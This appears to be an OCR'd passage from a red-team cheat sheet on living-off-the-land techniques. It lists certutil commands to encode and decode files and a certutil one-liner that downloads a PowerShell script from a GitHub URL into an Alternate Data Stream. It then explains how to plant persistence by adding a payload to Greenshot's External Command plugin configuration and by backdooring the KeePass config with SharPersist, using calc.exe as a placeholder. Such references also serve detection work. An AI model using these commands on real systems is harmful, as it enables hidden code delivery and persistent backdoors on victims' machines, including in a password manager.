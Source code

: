 Function-2:Encode a file using Base64
```
certutil -encode inputFileName encodedOutputFileName
```

Function-3:Command to decode a Base64/hexadecimal-encoded encoded file
```
certutil -decode encodedInputFileName decodedOutputFileName

certutil -decodehex encoded_hexadecimal_InputFileName decodedOutputFileName
```

Function-4:Download and save a PS1 file to an Alternate Data Stream (ADS)
```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
```
Actually, `ttt` means nothing here


# LOLAPPS

### 1.Greenshot

### Description
A free and open-source screen-shot program
Attacker can create a greenshot plugin to maintain persistence

### CMD
```
Any Greenshot plugin can contain persistence, the simplest being the "External command plugin" which uses command line; Modify the "Greenshot.ini" file in "%AppData%\Greenshot\", add an "[ExternalCommand]" configuration, add a new name to the "Commands" parameter, add the payload in the "Commandline.<name>" and "Argument.<name>", add the name to the "Destinations" parameter.  Alternatively, from GUI, open "Preferences -> Plugins -> External command Plugin -> Configure", add the payload in the "Command" and "Argument" parameters, open "Preferences -> Destination" and enable the new external command.
```
which means `T1546: Event Triggered Execution` that once the screen-shot is used, the configured payload will be executed

### 2.KeePass

### Description
An open-source password manager
Use an attack-tool:Sharpersist from CS, attackers can add a event trigger backdoor/code into Keepass database

### CMD
```
KeePass config file is backdoored by SharPersist by using 'SharPersist -t keepass -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m add' where -t argument (persistence technique) keepass, -c argument (command to execute), -a argument to mask the previous command, along with the -f argument to create/ or modify the corresponding KeePass config file, ending with -m argument as method for (add, remove, check, list) add.
```
once the user open/use the KeePass database, the configured event(open cal.exe) will be activated.
